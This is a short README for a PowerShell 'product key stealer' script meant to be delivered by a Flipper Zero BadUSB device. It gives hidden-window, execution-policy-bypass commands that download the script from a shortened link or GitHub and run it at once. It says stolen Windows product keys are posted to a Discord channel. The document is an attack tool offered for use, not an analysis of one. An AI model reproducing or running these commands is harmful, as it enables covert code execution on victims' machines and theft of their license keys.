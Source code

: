# WinProdKey.ps1
Hosting for WinProdKey.ps1 (Script for Windows Product Stiller for Flipper Zero script modified by me)

PRODUCT KEY WILL APPEAR HERE(https://discord.gg/uYYD6Ysm8P) (In #product-key-stiller)

Win + R command: powershell -w h -ep bypass "irm https://bit.ly/49SFZ7f | iex" or:

powershell -w h -ep bypass "irm https://raw.githubusercontent.com/nazarhktwitch/WinProdKey.ps1/refs/heads/main/WinProdKey.ps1 | iex"

Or just use payload (For Flipper Zero)
